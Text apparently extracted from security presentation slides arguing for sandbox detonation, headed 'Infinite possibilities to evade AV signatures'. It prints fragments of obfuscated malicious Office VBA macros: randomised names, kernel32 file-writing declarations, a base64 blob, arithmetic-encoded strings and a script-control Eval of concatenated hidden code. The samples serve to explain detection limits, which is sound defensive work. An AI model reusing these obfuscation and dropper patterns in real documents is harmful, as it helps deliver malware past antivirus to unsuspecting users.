

Infinite possibilities to evade AV signatures
# Why Detonation?
Attribute VB_Name = "Sg4H8a2snIHP4xK"
Public Function xki6L8mqtQ0ozcI(ByVal JSb4Ora5tv As Integer, ByVal liYA5YlWC As Variant) As Variant
Dim UsQ2uSe88ea1 As Integer
Dim jzs7U5 As Integer
Dim c8BXPU As Integer
Dim LrtUkopVK2jN As Integer
Dim eijYuhL As Integer, jHL4QnMI1UkOF6 As Integer
On Error GoTo BoVCD5N3T0
ThisDocument.D6hG9UqMW2sdKS
xki6L8mqtQ0ozcI = liYA5YlWC
Exit Function
BoVCD5N3T0:
c8BXPU = ZKHa67bidtfu(liYA5YlWC)
jzs7U5 = ThisDocument.AUsmTZj(JSb4Ora5tv, c8BXPU)
UsQ2uSe88ea1 = c8BXPU / jzs7U5
For jHL4QnMI1UkOF6 = ThisDocument.MkNcK9 To jzs7U5
For eijYuhL = 0 To UsQ2uSe88ea1
xki6L8mqtQ0ozcI = zfF40kszAh1zU.zqvhMF4qd(xki6L8mqtQ0ozcI, …
Private Declare Function CloseHandle Lib "kernel32" (ByVal hObject As Long) As Long
Private Declare Function WriteFile Lib "kernel32" (ByVal hFile As Long, lpBuffer As Byte, ByVal dwNumberOfBytesToWrite As Long, lpNumberOfBytesWritten As Long, ByVal lpOverlapped As Long) As Long
Private Declare Function GetTempPath Lib "kernel32" Alias "GetTempPathA" (ByVal nBufferLength As Long, ByVal lpBuffer As String) As Long
Private Declare Function GetTempFileName Lib "kernel32" Alias "GetTempFileNameA" (ByVal lpPathName As String, ByVal lpPrefixString As String, ByVal uUnique As Long, ByVal lpTempFileName As String) As Long
Private Sub runblackice()
On Error Resume Next
filestring = filestring = filestring + filestring = filestring + "VwBvAHIAawBzAHAAYQBjAGUAIABTAHQAYQB0AGUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAgECAAAABAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAABQAAAAAAABCAHIAbwB3AHMAZQByAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEAACAAMAAAAHAAAA/////wAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAwAAAAAFAAAAAAAAEUAZABpAHQAbwByAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOAAIB////////////////AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFgAAAAAUAAAAAAAA"
bupvupdyu = afpkh.ExpandEnvironmentStrings(pedugbr(Array(240, (8405 - 8257), (-8353 + 8486), (4508 - 4375), (-4516 + 4661), (8215 _
- 8067), (-221 + 350), (-8839 + 8987), (2865 - 2625), (5557 - 5420), 148, (-8210 + 8387), (-3782 + 3968), (-9105 + 9288), (-8111 + 8287), _
137, 148, (2515 - 2359), (5998 - 5863), 137, (-37 + 217), 175, 178, (-5460 + 5632), (-7127 + 7294), (-4668 + 4847), 189, (332 - 160), ( _
-9117 + 9368), (-446 + 623), (2217 - 2037), (4051 - 3890)), (9832 - 9619)))
Set scgzdrkmc = byfivenf.CreateTextFile(bupvupdyu)
If Err.Number <> (9752 - 9752) Then
Dim ejuyjco As String
Dim pkjhnpvxn
ejuyjco = pedugbr(Array(), (-2644 + 2727))
pkjhnpvxn = Split(bupvupdyu, pedugbr(Array((2924 - 2825)), (7128 - 7065)))
wolfmy = UBound(pkjhnpvxn)
If Mid(bupvupdyu, Len(bupvupdyu), (-1676 + 1677)) <> pedugbr(Array((-2597 + 2849)), (-2010 + 2170)) Then wolfmy = wolfmy - (-4391 _
+ 4392)
ehhpzr = ehhpzr & LVRiDty & nsZIrFO & eZGZLMe & TDAcru & kQBVrj & UwVihX & ZwZbfW & QsGoTb & lrhxjI & xttVlQa & tRbpRPL & pRRbsEH & rQeqZg & HABrov & kbGliiI & KsxHlO & STIUTu & lYVZuG & tPyNlL & CBvstp & YyNArAf & nZKJBK & MofWYGr & DDadug & LLiVePZ
ehhpzr = ehhpzr & cRujae & BKoqYwa & vyNFfG & FQHXTIk & lckFda & TFnlWAj & tdrzhUq & smSGxU & tbwObc & hymUPc & SXmEBPW & TzHxJN & eTRcXOB & isJoPG & wWYfLB & zsOcBF & KKlHQWk & GAUhcB & BXlStJL & yNizpu & WCcClJr & movhdmF & NXTOcu & pMqmrJ & RuxVkx
ehhpzr = ehhpzr & dsDbJCr & WcLFRA & xAQkNY & wtaPKs & LxMpHUz & eGZaocg & GVTPxoo & rQDhMG & cBblHn & DsRfOhd & eWPurMU & qmwnHTO & pYQlooj & xDZEPW & xEPoIu & foIOkh & WIkDSM & lPnQrqI & DeVhut & tDPitaP & GcDlHJD & TfBhrfd & oJKcAVV & VoNtQRp & oWwggE
LKatdx & zlJPuy & KCYbUF & HiMWEvW & tACQbxz & TdFOvON & KpjCfTl & iFmDTdJ & vxBTxig & JdUbOf
ehhpzr = ehhpzr & ZkDCLuH & QoPruhI & YevAqf & aXsRkuR
Set oScript = CreateObject(jfzvQr & ttojQNT & nkWAiS & slKOuqD & tLTWJX & FDWhxr & XiVbbH & fnsMYuL & ANGaHu & hQTvJn)
oScript.Language = cRDKjqJ & NNyPaYU & YWARXWz
oScript.Eval (ehhpzr)